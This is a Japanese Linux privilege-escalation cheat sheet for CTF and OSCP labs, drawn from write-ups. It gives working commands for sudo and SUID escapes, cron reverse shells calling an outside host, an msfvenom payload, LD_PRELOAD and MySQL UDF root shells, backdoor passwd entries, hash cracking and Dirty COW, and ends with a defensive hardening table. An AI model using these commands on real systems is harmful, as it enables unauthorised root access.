






## TL;DR

Linux の権限昇格は CTF マシンおよび OSCP ラボで最も重要なフェーズです。低権限のフットホールドを得た後、root への道は以下のいずれかのパターンを通ることがほとんどです。このガイドは 60 件超の Writeup から頻出テクニックを体系化したものです。

| カテゴリ | テクニック |
|---|---|
| 列挙 | LinPEAS、LinEnum、手動チェックリスト |
| sudo 悪用 | NOPASSWD GTFOBins、LD_PRELOAD、書き込み可能スクリプト |
| SUID 悪用 | find、gdb、python、base64、systemctl、bash |
| Capabilities | cap_setuid（python2/3）、cap_net_admin |
| Cron ジョブ | 書き込み可能スクリプト、ワイルドカードインジェクション（tar）|
| ファイルパーミッション | /etc/passwd 書き込み可能、/etc/shadow 読み取り可能 |
| サービス悪用 | MySQL UDF、root 実行サービス |
| コンテナ脱出 | LXD/LXC、Docker グループ |
| カーネルエクスプロイト | Dirty COW（CVE-2016-5195）ほか |
| その他 | NFS no_root_squash、PATH ハイジャック |

---

## 全体の思考フロー



---

## クイック判断マトリックス

| ベクター | 検出コマンド | 難易度 | 確認マシン |
|---|---|---|---|
| sudo NOPASSWD | `sudo -l` | GTFOBins バイナリなら即時 | Simple CTF、Jordak、Loly、Sunday |
| SUID 悪用 | `find / -perm -4000 -type f` | GTFOBins でワンライナー | Gaara、Jarvis、Linux PrivEsc |
| cap_setuid | `getcap -r / 2>/dev/null` | python/perl でワンライナー | Levram、Katana |
| Cron 書き込み可能 | `cat /etc/crontab; ls -la <script>` | リバースシェルを追記 | GlasgowSmile、Law |
| Cron ワイルドカード | `cat /etc/crontab` | ファイル名インジェクション | Linux PrivEsc |
| LXD グループ | `id` → `lxd` グループ確認 | コンテナで /mnt/root をマウント | Tabby |
| MySQL UDF | root 実行中、プラグインディレクトリ書き込み可 | カスタム .so → RCE | Linux PrivEsc |
| Dirty COW | `uname -r`（< 4.8.3）| 競合状態による上書き | Linux PrivEsc |
| LD_PRELOAD | `sudo -l` で env_keep 確認 | sudo プロセスに .so を注入 | Linux PrivEsc |
| shadow 読み取り可能 | `ls -la /etc/shadow` | オフラインハッシュクラック | Linux PrivEsc |

---

## Phase 0 — 列挙

テクニックを試す前に、必ず徹底的に列挙します。SUID ビットや Cron ジョブを見落とすのが、詰まる最大の原因です。

### 手動チェックリスト

```bash
# 1. 自分の権限確認
id && whoami && groups

# 2. sudo 権限
sudo -l

# 3. SUID/SGID バイナリ
find / -perm -4000 -type f 2>/dev/null       # SUID
find / -perm -2000 -type f 2>/dev/null       # SGID

# 4. Linux Capabilities
getcap -r / 2>/dev/null

# 5. Cron ジョブ
cat /etc/crontab
ls -la /etc/cron* /var/spool/cron/

# 6. root 所有の書き込み可能ファイル
find / -writable -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null

# 7. カーネルバージョン
uname -r

# 8. ユーザー・パスワード情報
cat /etc/passwd
cat /etc/shadow 2>/dev/null

# 9. root で動くサービス
ps aux | grep root
ss -tlnp
```

### 自動列挙ツール

```bash
# LinPEAS（最も包括的）
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh -s -k keyword -r report -e /tmp/

# linux-exploit-suggester-2
perl linux-exploit-suggester-2.pl
```

> **ワークフロー**: まず `sudo -l` と `getcap` を手動で実行（数秒で完了し、最も高確率な 2 つのベクターを網羅）。その後 LinPEAS でより深い調査を実施。

---

## 1. sudo 設定ミス

### 1a. NOPASSWD + GTFOBins バイナリ

最も一般的な即時突破口。`sudo -l` でパスワードなしに root として実行できるバイナリが見つかり、そのバイナリが [GTFOBins](https://gtfobins.github.io/) に掲載されているケース。

```bash
# sudo 権限を確認
sudo -l

# 出力例:
# User mitch may run the following commands:
#   (root) NOPASSWD: /usr/bin/vim
```

主なバイナリとエスケープコマンド：

| バイナリ | コマンド | 確認マシン |
|---|---|---|
| `vim` | `sudo vim -c ':!/bin/bash'` または コマンドモードで `:!bash` | [Simple CTF](/posts/thm-simple-ctf/) |
| `find` | `sudo find . -exec /bin/sh \; -quit` | [Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/) |
| `env` | `sudo env /bin/bash` | [Jordak](/posts/pg-jordak/) |
| `nano` | `sudo nano` → `^R^X` → `reset; sh 1>&0 2>&0` | [Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/) |
| `less` | `sudo less /etc/passwd` → `!/bin/bash` | [Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/) |
| `python` | `sudo python -c 'import os; os.system("/bin/bash")'` | 複数マシン |
| `bash` | `sudo bash` | — |



### 1b. sudo スクリプトへの書き込み可能

sudoers でカスタムスクリプトが指定されており、そのスクリプトに書き込み権限がある場合：

```bash
# sudoers: (root) NOPASSWD: /opt/scripts/mysql-backup.sh
# スクリプトがクォートなし変数を使用 → bash 比較バイパス可能

sudo /opt/scripts/mysql-backup.sh
# パスワードプロンプトにワイルドカード * を入力 → 比較バイパス
```

実例: [HTB Codify](/posts/htb-codify/) — `mysql-backup.sh` がクォートなし bash 文字列比較を行っており、`*` でバイパスして root パスワードを取得。

### 1c. LD_PRELOAD（env_keep）

`sudo -l` に `env_keep+=LD_PRELOAD` がある場合、悪意のある共有ライブラリを sudo コマンドに注入できます：

```bash
# root シェルを起動する共有ライブラリをコンパイル
cat > /tmp/shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); setuid(0);
    system("/bin/bash");
}
EOF
gcc -fPIC -shared -nostartfiles -o /tmp/shell.so /tmp/shell.c

# sudo 許可バイナリを LD_PRELOAD 付きで実行
sudo LD_PRELOAD=/tmp/shell.so find
```

確認マシン: [TryHackMe Linux PrivEsc](/posts/thm-linux-privesc/)

---

## 2. SUID 悪用

SUID ビットが設定されたバイナリは、実行者に関わらず、ファイルのオーナー（通常 root）として動作します。

```bash
# SUID バイナリを検索
find / -perm -4000 -type f 2>/dev/null
```



### 主な SUID 悪用手法

**`find` に SUID:**
```bash
find . -exec /bin/sh -p \; -quit
# -p: 実効 UID を維持（root を保持）
```

**`gdb` に SUID** ([Gaara](/posts/pg-gaara/)):
```bash
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

**`python` に SUID:**
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

**`base64` に SUID** — root として任意のファイルを読み取り ([Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/)):
```bash
base64 /etc/shadow | base64 --decode
```

**`systemctl` に SUID** ([Jarvis](/posts/htb-jarvis/)):
```bash
# 悪意のある systemd サービスユニットを作成
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
# その後: /bin/bash -p
```

> **参考**: 見慣れない SUID バイナリはすべて [GTFOBins](https://gtfobins.github.io/) で確認してください。数百種類の悪用パスが掲載されています。

---

## 3. Linux Capabilities

Capabilities は細粒度の権限機能です。バイナリに `cap_setuid=ep` が設定されている場合、SUID と実質的に同等であり、プロセスの UID を 0 に変更できます。

```bash
getcap -r / 2>/dev/null
# 出力例:
# /usr/bin/python3.10 = cap_setuid+ep
# /usr/bin/python2.7  = cap_setuid+ep
# /usr/bin/ping       = cap_net_raw+ep
```

```mermaid
sequenceDiagram
    participant U as 低権限ユーザー
    participant P as python3 (cap_setuid)
    participant S as /bin/bash

    U->>P: python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    Note over P: cap_setuid により setuid(0) が可能
    P->>S: os.system("/bin/bash")
    S->>U: root シェル (#)
```

**ワンライナー:**
```bash
# cap_setuid 付き python
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

確認マシン: [Levram](/posts/pg-levram/)、[Katana](/posts/pg-katana/)

| Capability | 意味 |
|---|---|
| `cap_setuid` | setuid(0) が可能 → 完全な root 昇格 |
| `cap_net_raw` | Raw ソケットアクセス（パケットスニッフィング等）|
| `cap_dac_override` | ファイルの読み書き権限チェックをバイパス |
| `cap_sys_admin` | ほぼ root: マウント、syslog 等 |

---

## 4. Cron ジョブ悪用

Cron ジョブは root として実行されますが、低権限ユーザーが変更できるファイルを実行することがあります。

```bash
cat /etc/crontab
# 例:
# * * * * * root /opt/cleanup.sh
```

### 4a. 書き込み可能なスクリプト

Cron スクリプトに書き込み権限があれば、リバースシェルのペイロードを追記します：

```bash
ls -la /opt/cleanup.sh
# -rwxrwxr-x root root /opt/cleanup.sh   ← 書き込み可能！

echo 'busybox nc 10.10.14.5 4444 -e /bin/bash' >> /opt/cleanup.sh
nc -nlvp 4444
# Cron 実行を待つ → root シェル
```

確認マシン: [GlasgowSmile](/posts/pg-glasgowsmile/)、[Law](/posts/pg-law/)

### 4b. ワイルドカードインジェクション（tar）

Cron スクリプトが書き込み可能なディレクトリで `tar cf /backup.tar *` を実行する場合、`--` で始まるファイル名が tar オプションとして解釈されます：

```bash
# 対象 Cron: tar cf /backup/archive.tar /home/user/*

# リバースシェルペイロードの作成
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attacker> LPORT=4444 -f elf -o shell.elf
chmod +x shell.elf

# 「オプション」ファイルの作成
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=shell.elf'

# Cron 実行を待つ → root リバースシェル
nc -nlvp 4444
```

確認マシン: [TryHackMe Linux PrivEsc](/posts/thm-linux-privesc/)



---

## 5. /etc/passwd 書き込み可能

`/etc/passwd` が誰でも書き込み可能な場合、新しい root 相当ユーザーを追加できます：

```bash
ls -la /etc/passwd
# -rw-rw-rw- 1 root root /etc/passwd   ← 書き込み可能！

# パスワードハッシュを生成
openssl passwd -1 -salt hacker password123
# $1$hacker$...

# UID=0 の新規ユーザーを追記
echo 'hacker:$1$hacker$<hash>:0:0:root:/root:/bin/bash' >> /etc/passwd
su hacker  # パスワード: password123
```

---

## 6. /etc/shadow 読み取り可能 → ハッシュクラック

`/etc/shadow` が読み取り可能（権限設定ミス）な場合、ハッシュを取得してオフラインでクラックします：

```bash
ls -la /etc/shadow
# -rw-r--r-- root root /etc/shadow   ← 誰でも読み取り可能！

cat /etc/shadow
# root:$6$...long_hash...:18561:0:99999:7:::

echo '$6$...<root_hash>...' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# または
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

確認マシン: [TryHackMe Linux PrivEsc](/posts/thm-linux-privesc/)、[Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/)

---

## 7. MySQL UDF 悪用

MySQL が root として動作しており、root 認証情報（例: 空パスワード）を取得できる場合、悪意のある UDF（ユーザー定義関数）で OS コマンドを root として実行できます。

```bash
# MySQL root として接続
mysql -u root

# 悪意のある UDF 共有ライブラリをロード
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

# UDF を作成
create function do_system returns integer soname 'raptor_udf2.so';

# OS コマンド実行（SUID bash を作成）
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
exit

/tmp/rootbash -p
# root シェル
```

UDF コンパイル:
```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

確認マシン: [TryHackMe Linux PrivEsc](/posts/thm-linux-privesc/)

---

## 8. LXD / LXC コンテナ脱出

現在のユーザーが `lxd` グループに所属している場合、特権コンテナを作成してホストファイルシステムをマウントできます：

```bash
id
# uid=1000(ash) gid=1000(ash) groups=1000(ash),116(lxd)

# 攻撃者マシンで: Alpine イメージをビルド
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder && ./build-alpine
# .tar.gz をターゲットへ転送

# ターゲット上:
lxd init   # すべてデフォルト
lxc image import alpine.tar.gz --alias myimage
lxc init myimage privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh

# コンテナ内（root として）:
cat /mnt/root/root/root.txt
chroot /mnt/root /bin/bash   # ホストファイルシステムへの完全 root アクセス
```

確認マシン: [HTB Tabby](/posts/htb-tabby/)



---

## 9. カーネルエクスプロイト — Dirty COW (CVE-2016-5195)

カーネルエクスプロイトは最終手段です。ノイズが大きく、システムをクラッシュさせる可能性があります。まずカーネルバージョンを確認します。

```bash
uname -r
# 4.4.0 → Dirty COW の脆弱性あり

perl linux-exploit-suggester-2.pl
# → dirtycow 等を提案
```

**Dirty COW** は Copy-on-Write の競合状態を悪用し、読み取り専用ファイル（SUID バイナリを含む）を上書きします。

```bash
# c0w.c（Dirty COW エクスプロイト）をダウンロード・転送
gcc -pthread c0w.c -o c0w
./c0w
# /usr/bin/passwd を root シェルバイナリに置き換え
/usr/bin/passwd
# root シェル
```

確認マシン: [TryHackMe Linux PrivEsc](/posts/thm-linux-privesc/)

> **警告**: Dirty COW は本番システムでカーネルパニックやデータ破損を引き起こす可能性があります。ラボ・CTF 環境のみで使用してください。

---

## 10. NFS no_root_squash

`no_root_squash` でエクスポートされた共有がある場合、リモートの root ユーザーがその共有に SUID ファイルを書き込めます：

```bash
# ターゲットのエクスポート確認
cat /etc/exports
# /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

# 攻撃者（root として）: NFS 共有をマウント
mount -o rw,vers=2 <victim_ip>:/tmp /mnt/nfs

# 共有に SUID シェルを作成
cp /bin/bash /mnt/nfs/bash
chmod +xs /mnt/nfs/bash

# ターゲット上:
/tmp/bash -p
# root シェル
```

---

## 11. PATH ハイジャック

SUID バイナリや sudo 許可スクリプトが**絶対パスなしでコマンドを呼び出す**場合、`$PATH` の先頭に悪意のあるバイナリを配置します：

```bash
# 例: SUID バイナリが "service apache2 restart" を呼び出す
strings /usr/local/bin/suid-binary | grep -v "^/"
# → "service"（相対パス）

# PATH をハイジャック
mkdir /tmp/hijack
echo '#!/bin/bash\nbash -p' > /tmp/hijack/service
chmod +x /tmp/hijack/service
export PATH=/tmp/hijack:$PATH
/usr/local/bin/suid-binary
# root シェル
```

---

## 権限昇格ワークフロー



---

## 検出・ハードニング（Blue Team）

| ベクター | 検出方法 | 対策 |
|---|---|---|
| sudo GTFOBins | `/etc/sudoers` を GTFOBins リストと照合 | 不要な NOPASSWD エントリを削除；コマンドパスを明示指定 |
| SUID 悪用 | `find / -perm -4000` のベースライン + 日次差分 | 不要なバイナリの SUID を削除；`nosuid` マウントオプションを使用 |
| cap_setuid | CI/CD での `getcap -r /` 監査 | 必要な Capability のみ付与；インタープリタへの `cap_setuid` は避ける |
| Cron 乗っ取り | Cron スクリプトのファイル整合性監視 | 書き込み権限を制限；root 所有・700 権限スクリプトを使用 |
| LXD 脱出 | グループメンバーシップの定期監査 | 必要な場合以外 `lxd` グループからユーザーを削除 |
| Dirty COW | `uname -r` 監視；パッチ管理 | カーネルパッチ適用（> 4.8.3 で修正済み）|

---

## テクニック別マシン一覧

| テクニック | マシン |
|---|---|
| sudo GTFOBins（vim/find/env/nano/less）| [Simple CTF](/posts/thm-simple-ctf/)、[Jordak](/posts/pg-jordak/)、[Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/) |
| sudo 書き込み可能スクリプト | [HTB Codify](/posts/htb-codify/)、[Jarvis](/posts/htb-jarvis/) |
| sudo LD_PRELOAD | [Linux PrivEsc](/posts/thm-linux-privesc/) |
| SUID gdb | [Gaara](/posts/pg-gaara/) |
| SUID systemctl | [HTB Jarvis](/posts/htb-jarvis/) |
| SUID base64 | [Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/) |
| cap_setuid python | [Levram](/posts/pg-levram/)、[Katana](/posts/pg-katana/) |
| Cron 書き込み可能スクリプト | [GlasgowSmile](/posts/pg-glasgowsmile/)、[Law](/posts/pg-law/) |
| Cron ワイルドカード（tar）| [Linux PrivEsc](/posts/thm-linux-privesc/) |
| LXD コンテナ脱出 | [HTB Tabby](/posts/htb-tabby/) |
| MySQL UDF | [Linux PrivEsc](/posts/thm-linux-privesc/) |
| カーネル（Dirty COW）| [Linux PrivEsc](/posts/thm-linux-privesc/) |
| パスワードハッシュクラック | [Linux PrivEsc](/posts/thm-linux-privesc/)、[Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/) |

---

## まとめ・重要ポイント

1. **常に `sudo -l` と `getcap` から始める** — 最速かつ最高確率な 2 つのチェック
2. **GTFOBins で確認してからカスタムエクスプロイトを書く** — 異常な SUID/Capability/sudo バイナリはまず GTFOBins をチェック
3. **Cron + 書き込み可能スクリプト = 信頼できる root 経路** — SUID も sudo もなくても Cron の権限を確認
4. **カーネルエクスプロイトは最終手段** — ノイズが大きくクラッシュリスクあり、でも時に唯一の経路
5. **LXD/Docker グループメンバーシップ = root 確定** — シェル取得直後に `id` で `lxd` や `docker` グループを確認

---

## 参考リンク・関連記事

- [GTFOBins](https://gtfobins.github.io/) — Unix バイナリの権限昇格カタログ
- [HackTricks: Linux Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)
- [LinPEAS](https://github.com/peass-ng/PEASS-ng) — Linux 権限昇格自動列挙スクリプト
- [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)
- [CVE-2016-5195 (Dirty COW)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195)
- **関連 Writeup**: [Simple CTF](/posts/thm-simple-ctf/)、[Gaara](/posts/pg-gaara/)、[Levram](/posts/pg-levram/)、[Katana](/posts/pg-katana/)、[Jordak](/posts/pg-jordak/)、[GlasgowSmile](/posts/pg-glasgowsmile/)、[Law](/posts/pg-law/)、[Linux PrivEsc](/posts/thm-linux-privesc/)、[Linux Privilege Escalation](/posts/thm-linux-privilege-escalation/)、[HTB Tabby](/posts/htb-tabby/)、[HTB Jarvis](/posts/htb-jarvis/)、[HTB Codify](/posts/htb-codify/)
- **関連技術記事**: [SUID find 詳細解説](/posts/tech-suid-find-privesc/)
